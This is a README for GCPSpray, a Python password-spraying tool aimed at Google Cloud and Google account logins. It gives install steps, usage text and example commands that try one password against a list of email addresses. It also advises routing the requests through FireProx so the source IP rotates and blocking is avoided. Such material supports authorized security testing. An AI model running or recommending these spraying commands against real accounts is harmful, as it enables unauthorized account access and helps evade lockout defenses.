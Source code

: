 # GCPSpray

This script will perform password spraying against Google Cloud Plataform (GCP).

This tool works well with [FireProx](https://github.com/ustayready/fireprox) to rotate source IP addresses on authentication requests. In testing this appeared to avoid getting blocked by Google.

## Quick Start
### Requirements

You will need to install the python library `requests`. You can do this by running:
```
pip3 install requests
```

### Usage

You will need a userlist file with target email-addresses one per line. 
```
usage: GCPSpray.py [-h] -u FILE -p PASSWORD [-o OUTFILE] [-f] [--url URL]

optional arguments:
  -h, --help            show this help message and exit
  -u FILE, --userlist FILE
                        File filled with usernames one-per-line in the format
                        'user@domain.com'. (Required)
  -p PASSWORD, --password PASSWORD
                        A single password that will be used to perform the
                        password spray. (Required)
  -o OUTFILE, --out OUTFILE
                        A file to output valid results to.
  --url URL             The URL to spray against (default is
                        https://accounts.google.com). Potentially useful if
                        pointing at an API Gateway URL generated with
                        something like FireProx to randomize the IP address
                        you are authenticating from.

EXAMPLE USAGE:
This command will use the provided userlist and attempt to authenticate to each account with a password of Winter2020.
    python3 GCPSpray.py --userlist ./userlist.txt --password Winter2020

This command uses the specified FireProx URL to spray from randomized IP addresses and writes the output to a file. See this for FireProx setup: https://github.com/ustayready/fireprox.
    python3 GCPSpray.py --userlist ./userlist.txt --password P@ssword --url https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox --out valid-users.txt
```
